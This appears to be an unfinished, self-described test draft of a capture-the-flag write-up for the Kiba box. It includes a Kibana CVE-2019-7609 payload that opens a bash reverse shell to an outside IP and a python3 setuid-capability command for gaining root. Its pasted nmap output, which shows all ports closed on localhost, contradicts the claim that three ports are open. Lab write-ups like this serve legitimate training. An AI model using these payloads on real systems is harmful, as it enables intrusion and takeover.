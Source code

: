 * NOT THE REAL WRITEUP, I JUST DO SOME TEST*
# ROOM : KIBA

## 1. Enumeration

First of all, i have to gather somes informations about this boxes.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-22 09:30 EDT
Nmap scan report for 127.0.0.1
Host is up (0.000072s latency).
All 1000 scanned ports on 127.0.0.1 are in ignored states.
Not shown: 1000 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

## 2. Research of exploit !
We found one CVE about Kibana : **CVE-2019-7609**

This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner to get the reverseshell.

`nc -lnvp 4444`

On the Timelion, i can put the payload :

`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

Nice, we have the reverse shell.

1st flag obtained !

## 3. Privilege escalation !

We have to look at linux capabilities with getcap.

```getcap -r / 2</dev/null```

We can see python have the setuid capabilite and we can exploit this to get the root.
Using GTFOBins we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

root flag obtained !

(En cours d'écriture..)
